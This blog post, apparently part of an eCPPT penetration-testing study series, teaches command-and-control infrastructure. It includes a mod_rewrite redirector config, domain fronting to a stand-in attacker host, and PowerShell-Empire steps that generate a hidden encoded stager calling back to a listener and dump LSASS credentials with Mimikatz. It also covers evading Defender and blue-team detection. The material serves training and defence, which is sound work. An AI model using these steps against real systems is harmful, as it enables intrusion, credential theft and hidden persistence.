



In modern offensive security assessments, long-term persistence and stealth cannot be maintained using fragile, single-stream interactive reverse shells. Terminal disconnections, user logouts, or network blips immediately terminate active sessions, while raw TCP connections stand out dramatically in perimeter NetFlow logs.

Professional red teamers and **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** operators rely on **Command and Control (C2) Frameworks**. In this deep dive, we explore C2 taxonomy, engineer a multi-tier resilient infrastructure with Apache `mod_rewrite` redirectors and Cloudflare **Domain Fronting**, evaluate modern frameworks via the C2 Matrix, and conduct full post-exploitation workflows using **PowerShell-Empire** and **Starkiller**.

---

### Series Navigation

| **Previous Part** | **Current Part** | **Next Part** |
| :---: | :---: | :---: |
| [Part 6: Lateral Movement & Pivoting](/posts/ecppt-v3-part-6-lateral-movement-and-pivoting/) | **Part 7: Command and Control (C2) Infrastructure** | [Part 8: Web Application Pentesting](/posts/ecppt-v3-part-8-web-application-penetration-testing/) |

---

## Key Takeaways

* **Core C2 Architecture Taxonomy**:
  * **Listener**: A server-side process binding to interfaces and ports, receiving telemetry and task responses via protocols such as HTTP/S, DNS, or SMB.
  * **Stager**: A minimal piece of code (staged vs. stageless) responsible for retrieving and injecting the full implant into process memory.
  * **Agent / Implant**: The persistent payload running within target memory, beaconing periodically to retrieve instructions and execute modules.
* **Multi-Tier Redirector Infrastructure**: Production C2 servers are never directly exposed to the internet. We deploy frontline **Redirectors** (using Apache/Nginx `mod_rewrite` or CDN edge workers) that inspect incoming User-Agents, URIs, and source IPs, discarding defensive scanners and forwarding only authentic agent traffic to the hidden team server.
* **Beacon Timing & Jitter Mechanics**: Periodic heartbeat beacons with static intervals (e.g., exactly every 60 seconds) are trivial for SOC SIEMs and NDR platforms to identify. We introduce **Jitter** percentages (e.g., 20% to 50% variance) to randomize beacon sleep intervals.
* **Domain Fronting**: An advanced egress technique where TLS connections request a high-reputation domain in the SNI header while routing to the attacker's CDN endpoint via the encrypted internal HTTP `Host` header, bypassing deep packet inspection.
* **PowerShell-Empire & Starkiller**: An asynchronous post-exploitation framework specialized in fileless Windows operations, in-memory execution of PowerSploit and Mimikatz, and collaborative web management.

---

## 1. Resilient Multi-Tier C2 Infrastructure Architecture

To ensure operational security (OpSec) and prevent incident responders from burning the primary C2 server, operations utilize a tiered architecture:

```mermaid
flowchart TD
    subgraph Targets ["Compromised Internal Endpoints"]
        V1["Workstation 1 (Empire Agent)"]
        V2["Workstation 2 (Empire Agent)"]
    end

    subgraph Edge ["Frontline Edge Layer (Disposable)"]
        CF["Cloudflare CDN / Workers<br/>(Domain Fronting Endpoint)"]
        Redir["Apache mod_rewrite Redirector<br/>Inspects User-Agent, URI, and IP ranges"]
    end

    subgraph ThreatIntel ["Defensive Scanners & Sandboxes"]
        SOC["Blue Team Analysts / Shodan / VirusTotal"]
    end

    subgraph Core ["Hardened Command Core (Protected)"]
        C2Server["Empire Team Server<br/>(Internal IP: 10.0.0.5:8080)"]
        Starkiller["Starkiller Management UI<br/>(Operator Console: Port 1337)"]
    end

    V1 & V2 -->|HTTPS Beaconing + Malleable Profile| CF
    CF --> Redir
    SOC -.->|Unauthorized Scanning Probe| Redir
    Redir -- "Disallow / Redirect 302 to" --> Legitimate["Legitimate Business Domain<br/>(e.g., https://microsoft.com)"]
    Redir -- "Valid Agent Signature" -->|Encrypted WireGuard VPN| C2Server
    C2Server <--> Starkiller
```

### Filtering Traffic with Apache `mod_rewrite`:
The edge redirector inspects incoming requests. If the request does not present the custom User-Agent and URI pattern defined in our malleable profile, it is immediately redirected away:

```apache
RewriteEngine On
# Check if User-Agent matches our secret implant signature:
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/5.0\ \(Windows\ NT\ 10\.0;\ Win64;\ x64\)\ AppleWebKit/537\.36$
# Check if URI matches our designated telemetry path:
RewriteRule ^/api/v1/telemetry$ http://10.0.0.5:8080%{REQUEST_URI} [P]

# All other traffic (security vendors, web crawlers) is redirected to Microsoft:
RewriteRule ^.*$ https://www.microsoft.com/ [R=302,L]
```

---

## 2. Domain Fronting Mechanics

**Domain Fronting** leverages Content Delivery Networks (CDNs) such as Cloudflare, Fastly, or AWS CloudFront to mask C2 endpoints:

1. **Outer Transport Layer (TLS SNI)**: The client initiates an SSL/TLS handshake specifying a trusted, benign enterprise domain hosted on the same CDN (e.g., `sni: trusted-firm.com`).
2. **Inner Application Layer (HTTP Host Header)**: Once the encrypted TLS tunnel is established, the HTTP request specifies `Host: attacker-c2.workers.dev`.
3. Perimeter firewalls inspect the initial unencrypted SNI packet and permit the connection due to the domain's high reputation. The CDN decrypts the packet, inspects the internal Host header, and transparently routes the traffic to the attacker's backend!

---

## 3. C2 Framework Evaluation Matrix

| Framework | Architecture | Core Languages | User Interface | Operational Highlights |
| :--- | :--- | :--- | :--- | :--- |
| **PowerShell-Empire** | Client-Server | Python, PowerShell, C# | CLI + Starkiller (Web) | Native Active Directory & Windows post-exploitation modules. |
| **Sliver C2** | Multiplayer | Golang | Terminal CLI | Cross-platform (Windows, Linux, macOS), dynamic code compilation. |
| **Mythic** | Microservices | Python, Docker, Go | Full Web UI | Plug-and-play agent architectures, extensible C2 profiles. |
| **Havoc** | Modern C2 | C++, Python, Qt | Modern Qt GUI | Sleep obfuscation, return address spoofing, hardware breakpoint hooks. |
| **Metasploit** | Monolithic | Ruby | CLI / Armitage | Traditional standard; signatures are heavily flagged by modern EDRs. |

---

## 4. Hands-on Red Team Operations: PowerShell-Empire & Starkiller

PowerShell-Empire is an industry-standard post-exploitation framework that executes entirely in-memory, minimizing disk footprints:



### Operational Deployment Commands:

```bash
# 1. Start the Empire Team Server
sudo powershell-empire server

# 2. Launch the client CLI or Starkiller Web GUI (Port 1337)
powershell-empire client
```

### 1. Creating and Starting an HTTP Listener:
```text
(Empire) > uselistener http
(Empire: listeners/http) > set Name http_external
(Empire: listeners/http) > set Host http://10.10.14.5:8080
(Empire: listeners/http) > set Port 8080
(Empire: listeners/http) > set DefaultDelay 5
(Empire: listeners/http) > set DefaultJitter 0.3
(Empire: listeners/http) > execute
[+] Listener successfully started!
```

### 2. Generating a Fileless Stager:
```text
(Empire) > usestager multi/launcher
(Empire: stagers/multi/launcher) > set Listener http_external
(Empire: stagers/multi/launcher) > set Language powershell
(Empire: stagers/multi/launcher) > execute
```

Empire outputs an obfuscated one-liner:
```powershell
powershell -NoP -NonI -W Hidden -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8...==
```

### 3. Agent Interaction & Module Execution:
When executed on the victim, the agent checks in:

```text
[+] Initial agent V5B6N8M1 from 10.10.10.50 now active!

(Empire) > interact V5B6N8M1
(Empire: V5B6N8M1) > sysinfo
(Empire: V5B6N8M1) > sleep 5 0.3

# Execute local privilege escalation audit via PowerUp
(Empire: V5B6N8M1) > usemodule powershell/privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > execute

# Dump LSASS credentials in memory via Mimikatz
(Empire: V5B6N8M1) > usemodule powershell/credentials/mimikatz/logonpasswords
(Empire: powershell/credentials/mimikatz/logonpasswords) > execute
```

---

## 5. Threat Hunting: How Blue Teams Detect C2 Channels

To ensure robust offensive hygiene, operators must understand the telemetry signatures analyzed by defensive SOC teams:

1. **JA3 and JA3S TLS Fingerprinting**: Client applications (including Empire, Sliver, and custom Go/Python implants) instantiate TLS handshakes using distinct configurations of cipher suites, elliptic curves, and TLS extensions. Blue teams hash these attributes into JA3 signatures, blacklisting unrecognized binaries regardless of domain reputation.
2. **Beacon Periodicity & Inter-Arrival Time (IAT) Analysis**: Network Detection and Response (NDR) platforms compute rolling statistical variances across session start times. Without adequate jitter, uniform heartbeat beacons stand out starkly against human web browsing.
3. **DNS Query Frequency & Shannon Entropy**: Implants utilizing DNS data exfiltration generate abnormal volumes of TXT/A queries containing high-entropy, base64-encoded subdomains, triggering automated anomaly thresholds in modern SIEMs.

---

---

## Visual Architecture: Resilient Multi-Tier C2 Infrastructure

The following diagram maps out the tiered defense evasion architecture utilized in modern red team operations, combining CDN edge workers, Apache `mod_rewrite` redirectors, and team servers:



### Key Architectural Observations from the Diagram:
1. **Sacrificial Edge Layer**: Frontline redirectors bear all the risk. If a threat hunter discovers a beacon IP address and blacklists it, only the disposable redirector is burned. The core team server remains completely hidden on a private WireGuard VPN subnet.
2. **The Malleable Profile**: C2 communications are customized to blend with benign background traffic. HTTP headers, cookies, URIs, and POST parameters are disguised to emulate legitimate enterprise web applications (such as Microsoft Office 365 or Google Analytics telemetry).

---

## Attack Chain Interconnection: Orchestrating Stealthy Campaign Persistence

Command and Control (C2) provides the command infrastructure that powers post-exploitation:



* **Connection to Part 9 (Client-Side Attacks)**: The listeners configured in Part 7 generate the stager payloads embedded into VBA Office macros and HTML Smuggling downloads in Part 9.
* **Connection to Part 10 (PowerShell for Pentesters)**: The Empire agent executes in-memory PowerShell commands. Combining Empire with in-memory AMSI patching in Part 10 guarantees that Windows Defender will not kill the agent process upon check-in.

---

## Categorized References & Authoritative Sources

### 1. C2 Evaluation & Modern Frameworks
* **The C2 Matrix Project** by Jorge Orchilles: Comprehensive taxonomy of C2 frameworks. [https://www.thec2matrix.com/](https://www.thec2matrix.com/).
* **BC-Security PowerShell-Empire & Starkiller Documentation**: [https://bc-security.gitbook.io/empire-wiki/](https://bc-security.gitbook.io/empire-wiki/).
* **BishopFox Sliver C2 Framework**: Cross-platform open-source C2. [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver).

### 2. Red Team Infrastructure & OpSec Research
* **Red Team Infrastructure Wiki**: *Automated C2 Redirection with Apache and Nginx* by Steve Borosh & Jeff Dimmock. [https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki).
* **Salesforce Engineering: Open-Sourcing JA3 & JA3S**: TLS client and server fingerprinting for threat detection.
* **Malleable C2 Profiles Reference Guide**: Customizing beacon telemetry syntax.

### 3. MITRE ATT&CK Enterprise Techniques
* **T1071**: Application Layer Protocol (Web Protocols, DNS). [https://attack.mitre.org/techniques/T1071/](https://attack.mitre.org/techniques/T1071/).
* **T1090.004**: Proxy: Domain Fronting. [https://attack.mitre.org/techniques/T1090/004/](https://attack.mitre.org/techniques/T1090/004/).
* **T1027**: Obfuscated/Encrypted Payloads. [https://attack.mitre.org/techniques/T1027/](https://attack.mitre.org/techniques/T1027/).

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
